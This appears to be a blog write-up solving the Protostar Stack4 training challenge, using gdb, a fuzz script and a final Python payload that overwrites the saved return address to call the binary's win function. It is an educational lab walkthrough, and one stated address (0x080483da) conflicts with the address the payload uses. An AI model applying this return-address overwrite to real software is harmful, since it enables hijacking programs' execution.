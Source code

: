 ```yaml
---
title: Protostar - Stack 4
date: 2024-02-14 20:32:00
categories: [binary-exploitation, protostar]
tags: [protostar, binary-exploitation, stack4]
---
```


# Conquering Stack4 at Protostar Machine

Hello !  Today, I will solve [Stack4](https://exploit.education/protostar/stack-four/) challenge on [Protostar](https://exploit.education/protostar) machine .

This time,our mission to hijack the execuation flow and make it flow as we want , Hackers Hah XD .. 
we need to make the program exec flow change and run function called `win` .
We Love `eip` hijacking hah ;). prepair your self and your terminal and let,s go.

- this challenge requiring us to Redirect Execution to call function called `win` defined in the code useing through exploitation of stack-bufferoverflow.

### **Challenge Overview**
- **Challenge Name:** [Stack4](https://exploit.education/protostar/stack-four/)
- **Machine:** [Protostar](https://exploit.education/protostar)

### Step 1: Explore Binary
![Stack4 Explore](/assets/img/protostar/stack4-explore.png)

Again there is input ... Hmmm i think i know this function which prompt input XD .. , but i will not say :D .. you will know later :) .

### Step 2: Analysis
![Stack4 Analsis](/assets/img/protostar/stack4-analysis.png)

1. Function Prologue:
   - `push ebp`: save the base pointer.
   - `mov ebp, esp`: set up  new base pointer.
   - `and esp, 0xfffffff0`: align the stack.
   - `sub esp, 0x60`: allocate space for local variables.
2. create pointer to buffer on stack and store it in `[esp]` pointer:
- `lea eax, [esp+0x10]`: load effective address into `eax`.
- `mov DWORD PTR [esp], eax`: store the address pointed by `eax` at top of the stack.
3. Function Calls:
- `call 804830c <gets@plt>`: calling the gets function. so my friend . that is the function which i told you about ;)
4. Function Epilogue:
- `leave` restore the stack frame. it is short for `mov esp,ebp` and `pop ebp`
- `ret` return from the function. 
5. `win` function address is at `0x080483f4` 

### Step 3: Debugging

#### Theory of instruction `call`

1. first when call a function program `push` current eip address on stack 
2. then `jmp` to function which called 
3. function `push ebp` , and `mov ebp,esp` which is known as `Function Prologue` which is init stack frame
4. at the end of function when it finished it make  `Function Epilogue` which is destory stack frame by `mov esp,ebp` then `pop ebp` which is also can be shorted as `leave` instruction
5. when execute `ret` in this function which called the `eip` `pop` the first value pushed before in the stack in step 1 which represent the `eip` value which is instruction after the function called to continue execute code that after function call

Now let,s fuzz & debug ! ;)

1. create fuzz script at `~/fuzz.py` contains:
```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
print(fuzz)
```
2. debug binary with gdb and disassemble `main` 
3. break point at `leave` instruction in `main`
4. run binary with stdin from output of running `~/fuzz.py`
5. check fuzz value at ebp register
6. check fuzz value at eip register

![Stack4 Debug](/assets/img/protostar/stack4-gdb-debug.png)

![Stack4 Debug](/assets/img/protostar/stack4-gdb-debug2.png)

- `ebp` value now is `0x53535353` which is hexadecimal respresntation for  fuzz value `SSSS` 

![Stack4 Debug](/assets/img/protostar/stack4-gdb-debug3.png)

- and of course  `eip` value now is `0x54545454` which is hexadecimal respresntation for fuzz value `TTTT` 
- well done now let,s craft our solution

### Step 4: Crafting Solution 
okay let,s update our script: `~/fuzz.py`

```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR"
ebp="SSSS"
eip="\xf4\x83\x04\x08" # represent 0x080483f4 on little endian machines. 0x080483f4 is address of win function
print(fuzz+ebp+eip)
```
now `eip` will have the address of `0x080483da` which is address for function `win`
let,s run our solution redirect output of `~/fuzz.py` to our beautiful binary `stack4`

![Stack4 Sloved](/assets/img/protostar/stack4-solved.png)

and now function `win` called ..

We `win` !  CheckMate ;) 


See You in [Stack5](/posts/protostar_stack5) ;)

